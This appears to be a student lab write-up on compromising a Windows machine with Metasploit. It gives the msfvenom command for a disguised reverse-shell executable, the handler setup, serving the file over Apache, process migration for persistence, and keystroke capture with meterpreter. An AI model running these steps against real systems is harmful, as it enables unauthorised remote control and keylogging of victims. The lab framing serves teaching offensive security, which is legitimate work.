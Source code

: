 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT
![image](https://github.com/user-attachments/assets/0e455703-e0ab-4506-bc3c-d8cd8d6f10d6)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT
![image](https://github.com/user-attachments/assets/b128229a-2a5a-4470-a0ee-668d76225c09)

Copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/c39330e6-98df-4d54-b570-7a864dc59237)


Start apache server

sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/2eca88d8-d02c-4580-a78e-c013c103e081)

Check the status of apache2

![image](https://github.com/user-attachments/assets/7e410c25-ee82-4cd8-9ee4-c8548ddc8a92)


Invoke msfconsole:

![image](https://github.com/user-attachments/assets/528a16d5-afeb-499e-ba2e-f6ac986f0708)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/user-attachments/assets/6f0c2629-c170-4646-ae71-033c2e2d8e42)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![image](https://github.com/user-attachments/assets/8b8c4c66-4e01-466a-ac64-53bf02f16428)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads. 

![image](https://github.com/user-attachments/assets/14b9b713-ea3f-4f15-b436-fca2928d3a1b)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/c00ae111-163b-45d3-ba31-40c61ab4129f)

On kali give the command exploit

![image](https://github.com/user-attachments/assets/73f634ba-42d2-46a3-82eb-ac01f80cda61)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/9338ac5d-3d47-4b7a-8ae2-f790ffa2635f)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/user-attachments/assets/16afe477-6ef8-412c-8228-72f9c010f937)


Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/d4810f9a-273c-4c18-890b-22f05db5c7a9)


![image](https://github.com/user-attachments/assets/81d5c71b-04bc-41c6-be8f-14131c6ba3c7)

keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/dd8684dd-9383-4847-a29c-993fba4cdb4b)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
